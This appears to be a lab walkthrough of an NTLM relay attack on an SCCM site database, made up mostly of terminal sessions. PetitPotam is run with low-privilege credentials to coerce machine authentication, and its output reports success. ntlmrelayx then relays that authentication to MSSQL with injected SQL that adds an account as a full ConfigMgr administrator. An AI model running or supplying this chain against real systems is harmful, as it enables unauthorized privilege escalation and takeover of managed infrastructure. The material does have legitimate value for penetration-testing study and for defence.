 
### PetitPotam

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd 10.10.100.136 passive.internal.lab

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



Trying pipe lsarpc
[-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

### NTLMrelayx

```
┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]
└─# python3 ntlmrelayx.py -t mssql://sql.internal.lab -smb2support -q "USE CM_LAB; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000010A878E28A377F8F541F39A6D040000,'lab\specter',0,0,'','','','','LAB');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00004','1');
"
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
```